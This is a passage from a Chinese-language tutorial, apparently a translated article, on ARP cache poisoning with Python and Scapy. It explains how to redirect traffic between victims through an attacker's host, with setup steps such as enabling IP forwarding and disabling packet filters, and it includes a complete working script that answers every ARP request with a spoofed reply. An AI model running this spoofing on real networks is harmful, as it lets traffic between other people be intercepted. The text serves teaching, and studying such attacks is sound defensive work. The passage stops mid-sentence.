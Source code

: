         在Scapy的帮助下，我们构造了一个名为packet的数据包，里面包括一个Ethernet()及一个ARP()头。在ARP头部中，我们设置了受害者的IP地址（target_ip）和我们想劫持所有连接的IP地址（fake_ip）。对于最后一个参数，我们设置OP-Code为is-at，声明该数据包为一个ARP响应。然后sendp()函数在每次发送数据包时，都等待10秒并一直循环发送下去。<br>        需要注意的是，你必须使用sendp()函数而不是send()函数，因为数据包应该在第二层被发送。send()则是在第三层发送数据包。<br>        最后，要记得启用IP转发，否则你的主机会阻塞来自受害者的连接。<br>

```
sysctl net.ipv4.ip_forward=1
```

        不要忘记检查像IPtables这样的数据包过滤器的设置，使用pf或ipfw或直接禁用它，现在已经了解了足够多的枯燥的理论知识，让我们直接进入一些实用的Python代码吧！<br>        如果你只是用fake_ip来处理客户端的ARP缓存，那么你只会得到客户端的数据包，而无法接收到服务端的响应。如下图所示。<br>[![](https://p0.ssl.qhimg.com/t01c1a82e6c44707432.png)](https://p0.ssl.qhimg.com/t01c1a82e6c44707432.png)<br>        如下图所示，要强制通过攻击者的主机进行双向连接，攻击者就必须使用他的MAC地址，来伪造客户端和服务端的相关目的地址。

[![](https://p5.ssl.qhimg.com/t0106d73defc9ca007f.png)](https://p5.ssl.qhimg.com/t0106d73defc9ca007f.png)<br>        我们的第一段代码有些粗糙，它发送了大量的ARP报文，不仅产生了所需要的流量，而且也比较暴露。隐蔽的攻击者会采取另一种策略。<br>        一台主机如果想要获取有关IP地址的信息，会发出一个ARP请求。我们将编写一个程序，等待ARP请求，并为每一个接收到的请求发送一个ARP欺骗响应。在交换环境中，这将导致每一个连接都会流经攻击者的主机，因为在ARP缓存中，每一个IP地址都会有攻击者的MAC地址。这个攻击更加优雅，不像之前的那个那么嘈杂，但还是很容易被一个训练有素的管理员检测到。<br>        如下图所示，欺骗性的响应数据包和真实主机的响应数据包被并行发送。谁的数据包先被受害者的网卡接收到，则谁获胜。

[![](https://p2.ssl.qhimg.com/t01d3dadbaa4dbd8b4d.png)](https://p2.ssl.qhimg.com/t01d3dadbaa4dbd8b4d.png)    <br>

```
#!/usr/bin/python    
 
import sys
from scapy.all import sniff, sendp, ARP, Ether    
 
if len(sys.argv) &lt; 2:
    print sys.argv[0] + " &lt;iface&gt;"
    sys.exit(0)    
 
 
def arp_poison_callback(packet):
        # Got ARP request?
        if packet[ARP].op == 1:
            answer = Ether(dst=packet[ARP].hwsrc) / ARP()
            answer[ARP].op = "is-at"
            answer[ARP].hwdst = packet[ARP].hwsrc
            answer[ARP].psrc = packet[ARP].pdst
            answer[ARP].pdst = packet[ARP].psrc    
 
            print "Fooling " + packet[ARP].psrc + " that " + 
                    packet[ARP].pdst + " is me"   
 
            sendp(answer, iface=sys.argv[1])    
 
sniff(prn=arp_poison_callback,
        filter="arp",
        iface=sys.argv[1],
        store=0)
```

<br>        从参数iface指定的网卡中，sniff()函数无限循环地读取数据包。将PACP过滤器设置为arp，使接收到的数据包都被自动过滤，来保证我们的回调函数arp_poison_callback在被调用时，只有ARP数据包作为输入。同时由于参数store=0，数据包将不会被存储。<br>        arp_poison_callback()函数处理我们的实际工作。首先，它会检查ARP报文的OP code：当它是1时则为一个ARP请求，然后我们来生成一个响应包，在响应数据包中，我们将请求包中的源MAC地址和IP地址作为目的MAC地址和IP地址。因为我们未定义源MAC地址，所以Scapy会自动插入发送数据包的网络接口地址。<br>        ARP中IP与MAC地址的对应关系会被缓存一段时间，因为它会被转储起来，对同一地址一遍又一遍地进行解析。可以用如下命令显示ARP缓存：<br>
